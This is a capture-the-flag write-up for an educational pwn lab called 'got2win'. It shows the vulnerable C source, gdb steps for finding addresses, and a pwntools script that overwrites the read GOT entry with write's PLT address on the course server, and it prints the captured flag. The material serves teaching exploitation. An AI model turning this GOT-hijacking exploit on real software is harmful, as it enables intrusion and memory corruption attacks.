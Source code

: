 ```yaml
---
title: Simple PWN - 0x06(GOT hijacking/Lab - `got2win`)
tags: [CTF, PWN, eductf]

---
```


# Simple PWN - 0x06(GOT hijacking/Lab - `got2win`)
###### tags: `CTF` `PWN` `eductf`

challenge: `nc edu-ctf.zoolab.org 10004`
## GOT Background
[Lecture Vid. - Pwn week1](https://youtu.be/ktoVQB99Gj4?t=4423)
[NTUSTISC - Pwn Basic 2 [2019.03.19]](https://youtu.be/PBgHHWtjtFA?t=6017)

## Original Code
:::spoiler Original Code
```cpp!=
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

char flag[0x30];

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    int fd = open("/home/chal/flag", O_RDONLY);
    read(fd, flag, 0x30);
    close(fd);
    write(1, "Good luck !\n", 13);

    unsigned long addr = 0;
    printf("Overwrite addr: ");
    scanf("%lu", &addr);
    printf("Overwrite 8 bytes value: ");
    read(0, (void *) addr, 0x8);

    printf("Give me fake flag: ");
    int nr = read(1, flag, 0x30);
    if (nr <= 0)
        exit(1);
    flag[nr - 1] = '\0';
    printf("This is your flag: ctf{% raw %}{%{% endraw %}s}... Just kidding :)\n", flag);

    return 0;
}
```
:::
* The program read the flag first at line `13~16`
* At line `19~22`, it allow user input an address and its value
* At line `25`, you may think it's weird that it use `stdout` as `read` function's parameter.
* In addition, it doesn't have buffer overflow, so that we can not use the technique before to get flag.
* Thus, our perspective is we can <font color="FF0000">overlap the `read GOT` by `write plt`</font>, so that it can execute write function:
`int nr=write(1, flag, 0x30);`
## Exploit
* First, we should find the address of `read GOT` and `write plt`
    ```bash!
    gdb chal
    b *main()
    ni    # Until write function
    si
    ```
    ![reference link](https://imgur.com/LFfc5fS.png)
* Then we wanna know `read GOT` address
![](https://imgur.com/hygnwEQ.png)
* My exploit is:
    ```python!
    from pwn import *

    context.arch = 'amd64'

    r=remote('edu-ctf.zoolab.org', 10004)
    context.terminal = ['tmux', 'splitw', '-h']

    read_got = 0x404038
    write_plt = 0x4010c0

    r.sendlineafter('Overwrite addr: ', str(read_got))
    r.sendafter('Overwrite 8 bytes value: ', p64(write_plt))

    r.interactive()
    ```
    Then, we can use `read` function as `write` function to get flag  <font color="FF0000">`FLAG{apple_1f3870be274f6c49b3e31a0c6728957f}`</font>

## Reference
[PWN week1](https://youtu.be/ktoVQB99Gj4)